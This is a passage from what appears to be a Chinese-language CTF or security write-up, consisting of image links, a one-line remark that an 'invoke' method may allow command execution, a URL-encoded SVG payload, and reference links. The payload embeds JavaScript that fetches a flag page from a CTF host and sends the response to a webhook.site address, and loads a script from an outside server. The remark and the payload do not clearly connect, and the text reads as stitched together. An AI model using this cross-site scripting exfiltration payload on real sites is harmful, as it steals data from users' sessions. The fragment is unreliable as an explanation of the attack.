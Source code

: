 [![](assets/1699929746-0d985eda7174c1e31e7a1903eaf10f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002453-837f1520-7f1c-1.png)  
​

​  
[![](assets/1699929746-24d3ffca7e2e5348e1e277165f23b646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002501-8804c8c4-7f1c-1.png)  
​

存在 invoke 方法 很有命令执行的可能

```bash
%3C?xml%20version=%221.0%22%20standalone=%22no%22?%3E%0A%3C!DOCTYPE%20svg%20PUBLIC%20%22-//W3C//DTD%20SVG%201.1//EN%22%20%22http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd%22%3E%0A%0A%3Csvg%20version=%221.1%22%20baseProfile=%22full%22%20xmlns=%22http://www.w3.org/2000/svg%22%3E%0A%20%20%3Cpolygon%20id=%22triangle%22%20points=%220,0%200,50%2050,0%22%20fill=%22#009900%22%20stroke=%22#004400%22/%3E%0A%20%20%3Cscript%20type=%22text/javascript%22%20src=%22https://x0.nz/WTHS%22%3E%0Avar%20xhr%20=%20new%20XMLHttpRequest();%0Axhr.open(%22GET%22,%20%22https://hallmark.web.actf.co/flag%22);%0Axhr.send();%0Avar%20xh%20=%20new%20XMLHttpRequest();%0Axh.open(%22POST%22,%20%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bxhr.response);%0A%0Axh.send(xhr.response);%0Afetch('https://hallmark.web.actf.co/flag').then(res%20=%3E%20res.text()).then(res%20=%3E%20fetch(%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bres))%0A%3C/script%3E%0A%3C/svg%3E
```

## 参考文章

[https://tttang.com/archive/1611/](https://tttang.com/archive/1611/)

[https://goodapple.top/archives/696](https://goodapple.top/archives/696)
